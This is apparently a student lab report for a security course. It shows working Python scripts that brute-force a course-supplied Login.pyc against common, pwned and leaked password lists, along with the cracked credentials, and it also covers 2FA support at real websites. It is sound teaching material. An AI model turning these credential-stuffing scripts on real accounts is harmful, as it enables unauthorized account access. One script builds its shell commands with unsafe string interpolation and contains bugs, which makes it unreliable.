\documentclass{article}
\usepackage[utf8]{inputenc}

\title{CSE3140 — Lab 1}
\author{Mike Medved, Nithila Annadurai}
\date{September 8th, 2022}

\usepackage{color}
\usepackage{amsthm}
\usepackage{amssymb} 
\usepackage{amsmath}
\usepackage[margin=1in]{geometry} 
\usepackage{listings}
\usepackage{xcolor}
\usepackage{minted}
\usepackage{hyperref}
\usepackage{graphicx}

\hypersetup{
    colorlinks=true,
    linkcolor=blue,
    linkbordercolor={0 0 1}
}

\usemintedstyle{emacs}
% \setmonofont{JetBrains Mono}

\begin{document}

\maketitle

\section{Deliverables}

\subsection{Part 1}

There are two ways you can get the password for the first part.

\begin{itemize}
    \item The first way is the intended way, you can get the password by brute forcing the Login.pyc binary with every password in the commonly used passwords file. We made a quick Python script to iterate through the file and accomplish this within a few tries. The source code is provided below for our script.
    
\begin{minted}[fontsize=\scriptsize]{python}
import subprocess
import sys
from time import time

start = time()
with open("../MostCommonPWs.txt") as f:
    for line in f:
        line = line.strip()
        if subprocess.call(["python3", "Login.pyc", "Adam", line]) == 0:
            print(f"Correct password is: {line}")
            print(f"Time taken: {str(time() - start)}s")
            sys.exit(0)
    \end{minted}

    Running the above script quickly revealed the password as "12345678" with the following output:
    \begin{minted}[fontsize=\scriptsize]{bash}
$ python3 Break1.py 
Start time: 1662754497.0349311
Incorrect Login!
Incorrect Login!
Incorrect Login!
Incorrect Login!
Success: correct userid and password!
Correct password is: 12345678
Time taken: 0.046373844146728516s
End time: 1662754497.0405295
\end{minted}

    \item The second way, which I know is not the intended way, but I just wanted to point it out, is to use a hex editor such as $hexdump$ in order to dump the strings of the binary according to the source code provided for the Login.pyc binary, the password occurs right after the username "Adam," so you can deduce which string is the password.
    
    \begin{minted}[fontsize=\scriptsize]{bash}
$ hexdump -C Login.pyc | grep -A 1 "Adam"
00000320  74 77 65 65 6e e9 02 00  00 00 5a 04 41 64 61 6d  |tween.....Z.Adam|
00000330  5a 08 31 32 33 34 35 36  37 38 72 09 00 00 00 29  |Z.12345678r....)|
    \end{minted}
\end{itemize}

\break
\subsection{Part 2}

We modified our \textit{Break1.py} script to again brute force the passwords for all usernames in the \textit{gang.txt} file. Included below is the modified source code for \textit{Break2.py}, which was used to get the passwords.

\begin{minted}[fontsize=\scriptsize]{python}
import subprocess
import sys
from time import time

start = time()
print(f"Start time: {start}")

pairs = []

with open("../gang.txt") as f:
    for name in f:
        name = name.strip()
        with open("../MostCommonPWs.txt") as f:
            for password in f:
                password = password.strip()
                if subprocess.call(["python3", "Login.pyc", name, password]) == 0:
                    pairs.append((name, password))
                    break
    
    with open("A2", "w") as f:
        for pair in pairs:
            f.write(f"{pair[0]},{pair[1]}")

print(f"Time taken: {str(time() - start)}s")
print(f"End time: {time()}")
\end{minted}

$\hfill \break$
Executing the above script revealed the passwords for three of the members, it's output is shown below. \textit{Note:} The script displays the standard out of the Login.pyc binary, this output has been omitted for brevity.

\begin{minted}[fontsize=\scriptsize]{bash}
$ python3 Break2.py 
Start time: 1663443158.43135
Success: correct userid and password!
Success: correct userid and password!
Success: correct userid and password!
Adam,?
Al,?
Charles,?
Ted,?
Tom,?
Bonnie,123456
Clyde,?
Kevin,?
Andrew,?
Jack,?
Richard,?
Donald,?
Kim,?
Vlad,?
Benedict,?
Billy,12345
Anne,qwerty
John,?
End time: 1663443161.0922985
Time taken: 2.660959005355835s
\end{minted}

\newpage
\subsection{Part 3}

We modified our \textit{Break2.py} script to again brute force the passwords for all undiscovered usernames in the \textit{gang.txt} file. Included below is the modified source code for \textit{Break3.py}, which was used to get the passwords.

\begin{minted}[fontsize=\scriptsize]{python}
import os
import sys
from time import time

start = time()
print(f"Start time: {start}")

found = []
users = []

with open("../Q2/A2") as f:
    for line in f:
        line = line.strip()
        found.append((line.split(",")[0], line.split(",")[1]))

with open("../gang.txt") as f:
    for line in f:
        line = line.strip()
        if line not in [x[0] for x in found]:
            users.append(line)
   
    with open("../PwnedPWs100k.txt") as f:
        i = 0
        for password in f:
            if len(users) == 0:
                break

            password = password.strip()
            for user in users:
                if os.system(f'python3 Login.pyc {user} "{password}" > /dev/null') == 0:
                    users.remove(user)
                    found.append((user, password))
            i += 1

if len(users) > 0:
    for user in users:
        found[user] = "?"

with open("A3", "w") as f:
    for user, password in found:
        print(f"{user},{password}")
        f.write(f"{user},{password}")

print(f"End time: {str(time())}")
print(f"Time taken: {str(time() - start)}s")
\end{minted}

$\hfill \break$
Executing the above script revealed the passwords for some members, and it's output is shown below.

\begin{minted}[fontsize=\scriptsize]{bash}
$ python3 Break3.py 
Start time: 1663434897.4392138
Adam,?
Al,?
Charles,?
Ted,?
Tom,?
Bonnie,123456
Clyde,?
Kevin,?
Andrew,?
Jack,?
Richard,?
Donald,?
Kim,?
Vlad,?
Benedict,?
Billy,12345
Anne,qwerty
John,?
End time: 1663435557.0922985
Time taken: 659.6530847549438s
\end{minted}

\newpage
\subsection{Part 4}

We modified our \textit{Break3.py} script to again brute force the passwords for all usernames in the \textit{gang.txt} file, but this time we used a leaked passwords file, \textit{PwnedPWFile} to check against. Included below is the modified source code for \textit{Break4.py}, which was used to get the passwords.

\begin{minted}[fontsize=\scriptsize]{python}
import subprocess
import sys
from time import time

start = time()
print(f"Start time: {start}")

pairs = {}

with open("../gang.txt", "r") as f:
    for member in f:
        pairs[member.strip()] = "?"

    with open("./PwnedPWfile") as f:
        for entry in f:
            _name, pw = entry.split(",")
            password = pw.strip()
            for member in list(filter(lambda x: pairs[x] == '?', pairs)):
                if 'successful' in str(subprocess.check_output(["python3", "Login.pyc", member, password])).lower():
                    print(f"Found {member}:{password}")
                    pairs[member] = password
                    continue

    for (name, password) in pairs.items():
        print(f"{name},{password}")

    print(f"End time: {str(time())}")
    print(f"Time taken: {str(time() - start)}s")
\end{minted}
    
$\hfill \break$
Executing the above script revealed the passwords for some members, and it's output is shown below.

\begin{minted}[fontsize=\scriptsize]{bash}
$ python3 Break4.py
Start time: 1663440740.2457314
Adam,?
Al,ePcsjmet
Charles,?
Ted,?
Tom,?
Bonnie,?
Clyde,?
Kevin,?
Andrew,vwQdfOdY
Jack,?
Richard,?
Donald,?
Kim,?
Vlad,XuanYqUE
Benedict,?
Billy,?
Anne,?
John,?
End time: 1663442564.7505186
Time taken: 1824.5047957897186s
\end{minted}

\newpage
\subsection{Part 5}

\textit{Pending}

\subsection{Part 6}

\textit{Pending}

\subsection{Part 7}

According to \href{https://haveibeenpwned.com}{haveibeenpwned}, no breaches were detected for my UConn email. An image is attached below.

\begin{center}
    
\includegraphics[width=0.75\textwidth]{q7.png}
\end{center}

\subsection{Part 8}

\textit{Pending}

\newpage
\subsection{Part 9}

One major website that does not support 2FA is Aetna. I choose this example because Aetna is a major US insurance provider, and the fact that they do not have 2FA for their services, which handle HIPAA and highly sensitive data is very concerning. I have attached a screenshot below of the Aetna Accounts FAQ page, which never mentions 2FA, and additionally a website that tracks 2FA-compliance, \href{https://2fa.directory}{2fa.directory}.

\begin{figure}[!htb]
    \centering
    
\includegraphics[width=0.75\textwidth]{q9a1.png}
    \caption{Aetna Accounts FAQ}
    \label{fig:q9}

    \vspace{0.2in}

    
\includegraphics[width=0.75\textwidth]{q9a2.png}
    \caption{2fa.directory Listing}
    \label{fig:q9-2}
\end{figure}

\newpage
$\hfill \break$
On the contrary, a website that does have support for 2FA is Bitwarden. Bitwarden is an open-source password manager which is self-hostable, is it is highly important that it supports 2FA since it handles and provides extremely sensitive data, being your passwords. I have attached a screenshot below of the Bitwarden 2FA preferences setup page, which shows that it supports 2FA, and additionally \href{https://2fa.directory}{2fa.directory} which shows what types of 2FA is allows.

\begin{figure}[!htb]
    \centering
